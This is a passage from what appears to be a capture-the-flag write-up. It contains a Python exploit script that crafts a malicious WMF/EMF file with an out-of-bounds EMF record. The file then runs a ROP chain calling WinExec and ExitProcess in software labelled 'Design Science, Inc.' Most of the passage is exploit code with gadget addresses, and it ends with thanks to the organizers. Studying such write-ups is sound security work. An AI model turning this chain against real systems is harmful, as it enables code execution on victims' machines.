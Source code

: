 ```python
Ql9BAPQQD0NfQQD0j0X0Kl9I9I9BAPQQD0D0j0F/SPQQD0EqX0RfRfRfRfRfQQ8M
AQABAAECAgICAAIAAQEBAAMAAQAEAAUACgAA
''')

    e = EMFRecord(payload)
    e.efun = 0xf
    e.bytecount = 0xff
    e.alloc_size = 0x108
    e.buff_size = 0xda

    h + e

    payload = 'Design Science, Inc.\x00'
    payload += 'A' * 0x3e

    payload = payload.encode()

    payload += p32(0x00753053)  # gadget 1 0x00753053: pop esi ; pop esp ; pop ebp ; ret  ;  (6 found)
    payload += p32(0x0043b056)  # 0x0043b056: add esp, 0x18 ; ret  ;  (2 found)
    payload += 'Design Science, Inc.\x00\x00\x00\x00'.encode()

    # 0x004f086e: pop eax ; ret  ;  (51 found)
    # 0x004f0e9c: mov dword [ecx], eax ; ret
    # 0x0040359f: pop ecx ; ret  ;  (934 found)

    payload += p32(0x004f086e)
    payload += p32(0x636c6163)
    payload += p32(0x0040359f)
    payload += p32(0x00619FC0)
    payload += p32(0x004f0e9c)

    payload += p32(0x04EDB7E)  # WinExec
    payload += p32(0x583190)  # ExitProcess
    payload += p32(0x00619FC0)
    payload += p32(5)

    e = EMFRecord(payload)
    e.efun = 0xf
    e.bytecount = 0x100
    e.alloc_size = 0x108  # it doesn't matter
    e.buff_size = len(payload)  # oob

    h + e

    with open('exp.wmf', 'wb') as f:
        f.write(bytes(h))
```

### Final words

Thanks for organizer! Such an interesting challenge!. Btw heap manipulation works the way that I don't think it works :).

